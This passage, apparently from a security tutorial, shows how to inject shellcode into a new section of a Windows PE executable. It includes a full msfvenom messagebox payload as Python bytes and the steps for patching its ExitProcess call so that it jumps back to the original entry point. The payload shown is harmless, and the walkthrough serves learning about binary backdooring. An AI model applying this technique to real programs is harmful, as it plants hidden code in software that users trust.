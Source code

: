 ```bash
[*] Original EntryPoint = 0x000550f0
[*] New EntryPoint = 0x00084000
```

Write the original entry point somewhere as we will use it later to redirect the execution flow to the original application.

### Injecting the Code

The last step is to inject our shellcode in the new section. I generated a simple shellcode with [Metasploit](http://metasploit.com), it will display a message box before starting the application. 

```python
# msfvenom -a x86 --platform windows -p windows/messagebox \
# TEXT="Hello, I'm in ur code" ICON=INFORMATION EXITFUNC=process \
# TITLE="BreakInSecurity" -f python

# No encoder or badchars specified, outputting raw payload
# Payload size: 283 bytes
# Final size of python file: 1362 bytes
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
                  b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
                  b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
                  b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
                  b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
                  b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
                  b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
                  b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
                  b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
                  b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
                  b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
                  b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
                  b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
                  b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
                  b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
                  b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x69\x74\x79\x58\x68"
                  b"\x65\x63\x75\x72\x68\x6b\x49\x6e\x53\x68\x42\x72\x65"
                  b"\x61\x31\xdb\x88\x5c\x24\x0f\x89\xe3\x68\x65\x58\x20"
                  b"\x20\x68\x20\x63\x6f\x64\x68\x6e\x20\x75\x72\x68\x27"
                  b"\x6d\x20\x69\x68\x6f\x2c\x20\x49\x68\x48\x65\x6c\x6c"
                  b"\x31\xc9\x88\x4c\x24\x15\x89\xe1\x31\xd2\x6a\x40\x53"
                  b"\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08")
```

Before injecting this shellcode, we need to modify it to redirect the execution flow to the application. As-is, this shellcode will close the application after being run. To redirect the execution flow we have to modify the last 6 bytes of the shellcode and tell it to continue the execution of the application.

```python
# Last 6 bytes of the original shellcode
# 31C0             XOR EAX,EAX
# 50               PUSH EAX
# FF55 08          CALL DWORD PTR SS:[EBP+8] 	// ExitProcess

# Replace the ExitProcess() by a Push/Call to start the main application
# B8 F0504500    MOV EAX, 004550f0
# FFD0           CALL EAX

# New bytes => \xB8\xF0\x50\x45\x00\xFF\xD0
```
